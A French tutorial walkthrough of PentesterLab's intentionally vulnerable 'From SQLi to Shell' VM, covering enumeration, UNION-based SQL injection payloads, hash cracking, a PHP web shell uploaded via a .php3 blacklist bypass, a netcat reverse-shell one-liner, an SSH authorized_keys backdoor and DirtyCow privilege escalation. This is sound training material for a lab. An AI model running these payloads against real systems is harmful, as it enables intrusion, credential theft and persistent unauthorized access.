---
title: "From SQLi to Shell"
author: [Olivier LASNE]
date: "2021-01-19"
subject: "Markdown"
keywords: [Sécuirté Web]
subtitle: "Exploitation de la machine"
lang: "fr"
titlepage: true
...

# Installation de "From SLQi to Shell"

Il s'agit d'une machine virtuelle faite par PentesterLab volontairement vulnérable. Elle permet de réaliser un scénario d'attaque complet sur une machine "réaliste".

Une correction officielle de la machine est disponible ici : [https://pentesterlab.com/exercises/from_sqli_to_shell/course](https://pentesterlab.com/exercises/from_sqli_to_shell/course)

## Télécharger le fichier ISO

Le fichier iso peut être télécharger ici:\
__[https://pentesterlab.com/exercises/from_sqli_to_shell/iso](https://pentesterlab.com/exercises/from_sqli_to_shell/iso)__

## Installation dans VirtualBox

### Création d'une nouvelle VM

Dans VirtualBox, cliquer sur le bouton **Nouvelle**. 

Donner un nom (ex: "SQLi to Shell"), puis choisir type **Linux** et version **debian32**.



Cliquer sur __Créer__.

------

Laisser les options de __Taille de mémoire__ et de __Disque dur__ par __défaut__.

Vous pouvez ensuite également laisser l'__emplacement du fichier__ et sa __taille__ par __défaut__.



Cliquer sur __Créer__.

### Ajout du live CD

Selectionner dans Virtualbox la VM nouvellement créée.



Et cliquer sur l'icone Configuration. 

Selectionner **Stockage > *Vide* sous Contrôleur IDE**.



Cliquer sur l'icone de CD {height=20}, et **Choissisez un fichier de disque optique virtuel**. Et sélectionner le fichier *from_sqli_to_shell_i386.iso* téléchagé précédement.

Appuyer sur **OK** en bas à droite pour confirmer les modifications. 

## Configuration réseau

Pour attaquer la VM vulnérable, on va préférer un mode "réseau privé hôte".

À nouveau, __selectionner__ la VM __"SQLi to Shell"__ dans VirtualBox et cliquer sur l'icone __Configuration__. 

1. Aller dans __Réseau > Apdater 1__
2. Pour _Mode d'accès réseau_ sélectionner __Réseau privé hôte__
3. Dans _Nom :_ sélectionner __vboxnet0__ (réseau de votre Kali)
4. Cliquer sur __OK__ pour confirmer les changement


## Lancer la VM

On peut mantenant lancer la machine virtuelle avec le bouton **Démarrer**. .

Il est possible qu'au démarrage, la VM vous __redemande le fichier ISO__ à utiliser. Dans ce cas, selectionner bien *from_sqli_to_shell_i386.iso*.



L'installation est terminée.

S'agissant d'un Live CD. La machine démarrera à chaque fois sur le fichie ISO sans conserver les changement qui ont été effectués dessus.

\newpage

# Pentest

Lorsqu'elle démarre. La machine vous donne un shell (avec un clavier QWERTY).\
Vous pouvez utiliser la commande `ifconfig` pour trouver l'IP de la machine.



Si votre machine n'a pas d'adresse IP. Vous pouvez en demander une à Virtualbox avec la commande

```sudo dhclient eth0```

## Scan de port

La première chose à faire lorque l'on a une machine a tester est un scan de ports avec `nmap`. Vous pouvez faire cela avec votre __Kali Linux__.

Pour un scan de port complet, rajouter l'option `-p-`.

```
nmap -sV -sC 192.168.56.112 -oN scan_tcp.nmap

Starting Nmap 7.60 ( https://nmap.org ) at 2021-01-20 12:14 CET
Nmap scan report for ubuntu32 (192.168.56.112)
Host is up (0.00014s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.5p1 Debian 6+squeeze2 (protocol 2.0)
| ssh-hostkey: 
|   1024 18:53:14:47:58:80:c3:98:fd:39:f7:69:02:f9:46:79 (DSA)
|_  2048 b2:ed:5b:ea:4d:9b:aa:b8:b5:2f:a0:37:86:44:22:aa (RSA)
80/tcp open  http    Apache httpd 2.2.16 ((Debian))
|_http-server-header: Apache/2.2.16 (Debian)
|_http-title: My Photoblog - last picture
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.74 seconds
```

On a ici deux services : un serveur SSH port 22, et un serveur Web sur le port 80.

Port | service
-----|--------
tcp/22 | SSH
tcp/80 | HTTP (web)

## HTTP - TCP/80 :

## Énumération

Lorsque l'on a un serveur web, on va systématiquement lancer quelques scans.

### Nikto

Nikto est un scanner web un peu ancien, qui remonte souvent des faux positifs. Il peut néanmoins avoir quelques informations utiles.

Sous Kali, nikto se lance avec `nikto -h ip_cible`.\
On peut stocker les résultats un `tee`.

```bash
$ nikto -h 192.168.56.112 | tee scan_nikto.txt

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.112
+ Target Hostname:    192.168.56.112
+ Target Port:        80
+ Start Time:         2021-01-20 12:23:28 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.2.16 (Debian)
+ Retrieved x-powered-by header: PHP/5.3.3-7+squeeze14
+ The anti-clickjacking X-Frame-Options header is not present.
...

```

Il ne nous remonte ici pas grand chose d'intéressant si ce n'est des erreurs de configuration.

### Gobuster

On va généralement lancer un Gobuster pour découvrir d'autres fichiers sur le serveur web.

Si il n'est pas présent, installez le sur kali avec
```
sudo apt install gobuster
```

La syntaxe de __`gobuster`__ est la suivante :
```
gobuster dir -u http://ip -w wordlist -o fichier_de_sortie -x extensions_à_ajouter
```

```
$ gobuster dir -u http://192.168.56.112 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php -o gobuster_med.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.56.112
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2021/01/20 13:19:57 Starting gobuster
===============================================================
/images (Status: 301)
/index (Status: 200)
/index.php (Status: 200)
/header (Status: 200)
/header.php (Status: 200)
/admin (Status: 301)
/footer (Status: 200)
/footer.php (Status: 200)
/show (Status: 200)
/show.php (Status: 200)
/all (Status: 200)
/all.php (Status: 200)
/css (Status: 301)
...
```

Dans notre cas, on va notamment être intéressé par la page `admin` :\
[http://192.168.56.112/admin/](http://192.168.56.112/admin/).


# Test de l'application Web

Lorsque l'on teste une application Web, on commence par en faire un tour, découvrir les différentes fonctionnalitées.

Ici, on découvre les fonctionnalités suivantes :

* Différentes images, identifiées par `id=1`, `id=2`, etc
* Une page d'administration (`http://ip/admin/`) qui demande un utilisateur / mot de passe





Dans un pentest professionnel. On utiliserait le scanner de _BurpSuite Pro_ à ce stade pour chercher des failles de sécurité.

L'injection SQL se trouve au niveau du paramètre `id`.

## Injection SQL

On constate que `http://192.168.56.112/cat.php?id=3-1` nous donne la même chose que la page ``http://192.168.56.112/cat.php?id=2`.\
C'est probablement qu'il y a une injection SQL au niveau du paramètre `id` !

On peut utiliser le _Repeater_ de Burp pour tester ce paramètre.

Afin de faciliter les tests, on peut rechercher `secondary-navigation` dans la partie _Response_, et cocher _Auto-scroll to match when text changes_.



On va commencer par ajouter notre cher ';--+' pour commenter la fin de la requête. Et on constate que la requête fonctionne toujours



## Trouver le nombre de colonnes

On va chercher ici à réaliser une injection avec l'opérateur `UNION`.\
On va tout d'abord chercher à déterminer le nombre de colonnes.

La requête __échoue lorsque l'on arrive à 5 colonnes__. C'est donc qu'__il n'y en a que 4__.

URL : [http://192.168.56.112/cat.php?id=2+ORDER+BY+5;--+](http://192.168.56.112/cat.php?id=2+ORDER+BY+5;--+)



## UNION SELECT NULL

Maintenant que l'on a déterminer le nombre de colonnes. On va utiliser la syntaxe avec `UNION` pour extraire des données de la base.

Comme on a 4 colonnes, on peut utiliser `UNION SELECT NULL,NULL,NULL,NULL`.

Ajouter le `UNION SELECT NULL` ne produit par d'erreur.



## LIMIT 1,1

Lorsque l'on ajoute `LIMIT 1,1` dans notre requête. Plusieurs éléments disparaissent.

URL : __[http://192.168.56.112/cat.php?id=2+UNION+SELECT+NULL,NULL,NULL,NULL+LIMIT+1,1;--+](http://192.168.56.112/cat.php?id=2+UNION+SELECT+NULL,NULL,NULL,NULL+LIMIT+1,1;--+)__



On peut également utiliser le _Comparer_ de Burp (clic droit, _send to Comparer_) pour examiner les différences entre les réponses.



## Réfléchir les éléments

Lorsque l'on remplace nos `NULL` par du texte. On peut voir que la 2ème et 3ème colonnes sont réfléchies dans la page web.



## Trouver le nom de la BDD

On extrait le nom des bases de données avec l'injection SQL :
```SQL
2 UNION SELECT NULL,group_concat(schema_name),'ccc',NULL FROM information_schema.schemata LIMIT 1,1;--
```



## Trouver les tables

De même, on liste les tables avec l'injection SQL suivante :
```SQL
2 UNION SELECT NULL,group_concat(table_name),'ccc',NULL FROM information_schema.tables WHERE table_schema='photoblog' LIMIT 1,1;-- 
```



## Trouver les colonnes

On liste les colonnes de la table avec l'injection SQL suivante :
```SQL
2 UNION SELECT NULL,group_concat(column_name),'ccc',NULL FROM information_schema.columns WHERE table_name='users' LIMIT 1,1;-- 
```




## Extraction de données

Une fois que l'on a les tables, et les noms de colonnes. On peut récupérer le hash de l'administateur.
```SQL
2 UNION SELECT NULL,group_concat(login,0x7c,password),'ccc',NULL FROM users LIMIT 1,1;-- 
```



Identifiants :
```
admin:8efe310f9ab3efeae8d410a8e0166eb2
```
\newpage

# Casser le hash

Il s'agit ici d'un hash connu, et vous pouvez trouver le clair sur internet. Par principe, voici la démarche complète pour le casser.

## Identifier le hash

On peut utiliser l'outil `hash-identifier` présent par défault sur Kali pour __identifier le type du hash__.

```bash
$ hash-identifier 8efe310f9ab3efeae8d410a8e0166eb2
[ascii art]

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

Least Possible Hashs:
[+] RAdmin v2.x
...
```

L'outil nous indique qu'il s'agit vraisemblablement d'un hash MD5.

## Casser le hash avec Hashcat

En regardant l'__aide__ de `hashcat` avec __`hashcat -h | less`__. On identifie que le type MD5 se donne avec l'option __`-m 0`__.\
Dans une machine virtuelle, il est généralement nécessaire de rajouter l'option __`--force`__ lorsque l'on lance `hashcat`.

```
$ hashcat -h | less
[...]
      # | Name                                             | Category
  ======+==================================================+========
    900 | MD4                                              | Raw Hash
      0 | MD5                                              | Raw Hash
    100 | SHA1                                             | Raw Hash
   1300 | SHA2-224                                         | Raw Hash
[...]
```

On crée un fichier `admin.hash` dans lequel on écrit notre hash. Et on lance `hashcat` de la façon suivante :

```bash
$ cat admin.hash     
8efe310f9ab3efeae8d410a8e0166eb2

$ hashcat --force -m 0 admin.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

[...]
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

8efe310f9ab3efeae8d410a8e0166eb2:P4ssw0rd        

[...]
```
__rockyou.txt__ est une liste commune de mot de passe. Elle est présente par défaut sur kali à `/usr/share/wordlists/rockyou.txt.gz`. Mais elle est compressée, et il est nécessaire de l'extraire.

Un fois le hash cassé une fois. On peut le retrouver avec `hashcat --show hashfile`.

```
$ hashcat --show admin.hash                                       
8efe310f9ab3efeae8d410a8e0166eb2:P4ssw0rd
```

\newpage

# Upload de fichier

Une fois le mot de passe de l'administrateur obtenu. On peut retourner sur la page d'administration de l'application. Et s'authentifier avec __`admin:P4ssw0rd`__.



On peut créer le fichier `shell.php` suivant, permettant une exécution de commande:
```PHP
<?php
    system($_REQUEST['cmd']);
?>
```

On va tenter d'uploader ce dernier sur le site.

Les méthodes vues sur OWASP Bricks ne permettent 



Néanmoins, il est possible de contourner la liste noire en renommant le fichier en `.php3`.


__Note :__ il est églament possible d'uploader un fichier `.php5`, mais le serveur web ne permet pas son exécution.

En parcourant le site et en regardant le code html des pages. On retrouve notre fichier dans le dossier `/admin/uploads`.

[http://192.168.56.102/admin/uploads/shell.php3](http://192.168.56.102/admin/uploads/shell.php3)

On peut exécuter des commandes à l'aide le paramètre `cmd` dans des requêtes `GET` ou `POST`.



\newpage

## Obtenir un reverse shell

On va généralement chercher à obtenir un __accès interactif__ à une machine distante. Pas une simple exécution de commande.

Le site _pentestmonkey.net_ possède une liste de commandes pour obtenir un _reverse shell_.\
[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

La commande suivante utilise des outils embarqués généralement par les distrubutions GNU/Linux, et est des plus fiable.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

On peut simplement __ouvrir un port en écoute__ avec __`netcat`__ sur Kali.
```bash
nc -lvnp 9001
```

__On adapte ensuite la commande à notre addresse IP et port__. Puis on l'exécute (avec un encodage URL) via Burp et notre fichier `shell.php3` uploadé précédement.



La page web ne va pas répondre (PHP exécute un processus et rend pas la main). Et on obtient un shell interactif sur notre `netcat`.

```bsh
$ nc -lvnp 9001
Listening on [0.0.0.0] (family 0, port 9001)
Connection from 192.168.56.102 37079 received!
/bin/sh: can't access tty; job control turned off
$ id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ ls
cthulhu.png
hacker.png
ruby.jpg
shell.php3
shell.php5

$ 
```

## Améliorer notre shell

Généralement, on peut utiliser `python` pour obtenir un meilleur shell. Avec les commandes bash suivantes.

```bash
python -c "import pty;pty.spawn('/bin/bash')"
[Ctrl+z]

stty size (noter le nombre de lignes et colonnes)

stty raw -echo
fg
stty columns [nb de colonnes]
stty rows    [nb de lignes]
export TERM=xterm-256color
```

__Néanmoins, `python` n'est pas présent sur la box__. À défaut, on peut utiliser `rlwrap` pour avoir un historique des commandes.

```
$ rlwrap nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 192.168.56.112 33325
/bin/sh: can't access tty; job control turned off

whoami
www-data

```

## Backdoor SSH

La commande `whoami` nous indique que nous sommes l'ustilisateur `www-data`.

```
$ whoami
www-data
```

En regardant le fichier `/etc/passwd`, on constate que l'utilisateur `www-data` a pour dossier HOME `/var/www`, et qu'il peut obtenir un shell sur la box (indiqué par `/bin/sh`).

```sh
$ grep www-data /etc/passwd
www-data:x:33:33:www-data:/var/www:/bin/sh
```

Étant donné qu'il y a un port SSH en écoute. On peut créer une __clé SSH__, et s'en servir pour se connecter en tant que `www-data`.

----------------------

### Fonctionnement de l'authentification par clé SSH :
Les clés SSH sont composées d'une __clé publique__ (qui sert de "carte d'identité"), et d'une __clé privée__ qui doit être gardée secrete.

On peut se connecter en SSH __sans mot de passe__ en utilisant une clé SSH. Il faut pour cela que la __clé publique soit présente__ dans fichier __`.ssh/authorized_keys`__ du dossier HOME de l'utilisateur pour lequel on s'authentifie.

----------------------

Pour créer la clé sur kali (appuyer sur `Enter` pour ne pas donner de passphrase):
```bash
$ ssh-keygen -f ssh_www-data                       

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ssh_www-data
Your public key has been saved in ssh_www-data.pub
The key fingerprint is:
SHA256:+hsQYWJWGVsdNmXPiVTBVyFhfRAHD8hV4ZZ+PnKWJxU olivier@kali
The key's randomart image is:
+---[RSA 3072]----+
|    +.=o..+++O@OB|
|   o o.+ ..++++*+|
|      o     . +Eo|
|       .      o .|
|      . S      .o|
|       o       oo|
|      . .    ..=o|
|       . .    +.o|
|        o.       |
+----[SHA256]-----+
```

On regarde le contenu de la __clé publique SSH__ que l'on vient de créer. (fichier finissant par .pub)
```bash
$ cat ssh_www-data.pub 

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDMVV0TSRvPqsx4WBCup/MaVa4DCgTb1l1Xy3+nrgrZMo1Q/t8iblL6PHOvC4s2uP6aOPjVEOfI2qDgvZfEfG+J6g2B1GXLZBtnfyk1bJGY7h2dO1yJg0hHqZ91NcEsJ0Qv3Lq7JxoI6NAmiL6vPil69noaMzgSedOswxn247naRLVPGpBCL5f0R+TpRuJ6tF1Xtc++II6aL/zUME7aJR9qxv/9AoDjwE7JYLmAJt7LRp9ZjUBGm53cIuLrnHf4hkNVO2lxA9Atmvm9Zyiwdk55XLpTQp3Pg1Q4Hu/QSR2G6ZFQXEbCUqtlx/pXTfHFoSYixSn1dj4WUgCtVhHhwhhJGiJ70n/Cj37U3JbssSKlaNqa1hPVWxDgT2C2nyZtDIf83qwUjenvpQoPTCgas7p8ef0PF76eGah9TQeAsysjpvLtHBUjsBmZdDmZI+vIkJ0lKk08elIiMCa77NcPO3vIgBnNL29M8Qo+XFMrS8OhZdLRLM1qen5JwoMexyaKhpc= olivier@kali
```


Sur la __machine "From SQLi to Shell"__, on va créer un dossier `.ssh` dans le HOME de _www-data_ `/var/www/`

```bash
$ mkdir -p /var/www/.ssh/
```

On peut ensuite ajouter notre __clé publique__ au __fichier des clés autorisées__. Comme il n'existe pas, on crée ce fichier.

```bash
echo -n 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDMVV0TSRvPqsx4WBCup/MaVa4DCgTb1l1Xy3+nrgrZMo1Q/t8iblL6PHOvC4s2uP6aOPjVEOfI2qDgvZfEfG+J6g2B1GXLZBtnfyk1bJGY7h2dO1yJg0hHqZ91NcEsJ0Qv3Lq7JxoI6NAmiL6vPil69noaMzgSedOswxn247naRLVPGpBCL5f0R+TpRuJ6tF1Xtc++II6aL/zUME7aJR9qxv/9AoDjwE7JYLmAJt7LRp9ZjUBGm53cIuLrnHf4hkNVO2lxA9Atmvm9Zyiwdk55XLpTQp3Pg1Q4Hu/QSR2G6ZFQXEbCUqtlx/pXTfHFoSYixSn1dj4WUgCtVhHhwhhJGiJ70n/Cj37U3JbssSKlaNqa1hPVWxDgT2C2nyZtDIf83qwUjenvpQoPTCgas7p8ef0PF76eGah9TQeAsysjpvLtHBUjsBmZdDmZI+vIkJ0lKk08elIiMCa77NcPO3vIgBnNL29M8Qo+XFMrS8OhZdLRLM1qen5JwoMexyaKhpc= olivier@kali' >> /var/www/.ssh/authorized_keys
```

On peut maintenant __se connecter depuis la Kali__ avec notre __clé privée SSH__.
D'abord on doit changer les droits de la clé privée.
```bash
chmod 600 ssh_www-data
```

On peut ensuite se connecter en SSH avec notre clé privée.
```bash
ssh -i www-data www-data@192.168.56.112
```

# Élévation de privilèges

On a pour le moment un shell avec l'utilisateur `www-data`. On va chercher à élever nos privilèges pour devenir `root`.

Pour cela on peut utiliser un script d'énumération tel que __LinPEAS__ pour découvrir des vulnérabilités qui nous permetteraient d'élever nos privilèges.

LinPEAS se trouve sur le déport suivant : __[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)__.

Vous pouvez le téléchager sur Kali, puis utiliser `sshfs` ou `scp` pour copier le fichier sur la machine _SQLi to Shell_.

```bash
scp -i ssh_www-data linpeas.sh www-data@192.168.56.112:/tmp/

linpeas.sh                     100%  293KB  57.1MB/s   00:00
```

On peut ensuite aller la _SQLi to shell_ et exécuter le script d'énumération.\
Je vais ici utiliser la commande `tee` pour stocker les résultats du script dans un fichier.

Dans le dossier `/tmp`:
```
$ bash linpeas.sh | tee linpeas.txt

linpeas v2.9.4 by carlospolop
[...]
```

On peut ouvrir les fichier `linpeas.txt` avec la couleurs en utilisant la commande `less -R`

## Utilisation d'un exploit kernel

Le noyau Linux utilisé est la version __2.6.32-5__. (On peut également le voir avec la commande `uname -a`).

Il existe plusieurs vulnérablitiés pour cette version du noyau Linux. Si on cherche avec un outil comme __Linux Exploit Suggester 2__, il va nous en lister plusieurs.

__[https://github.com/jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)__

```
$ perl linux-exploit-suggester-2.pl -k 2.6.32  
                                                                               
  #############################
    Linux Exploit Suggester 2
  #############################                                                
                                       
  Local Kernel: 2.6.32
  Searching 72 exploits...                                                     
                                       
  Possible Exploits                                                            
  [1] american-sign-language                                                   
      CVE-2010-4347
      Source: http://www.securityfocus.com/bid/45408
  [2] can_bcm
      CVE-2010-2959
      Source: http://www.exploit-db.com/exploits/14814
  [3] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616

[...]
```

Dans notre cas, on va utiliser DirtyCow qui est un exploit très documenté et fiable.

Vous pouvez aller voir [https://dirtycow.ninja/](https://dirtycow.ninja/) pour plus de détails sur la vulnérabilité.\
Le github associté liste de nombreux exploits :
__[https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)__


Le dernier listé `dirty.c` est assez fiable.



Néanmoins, la machine distante étant en 32 bit comme l'indique `i686` dans la commande `uname -a`. Il est nécessaire de compiler l'exploit en 32 bits.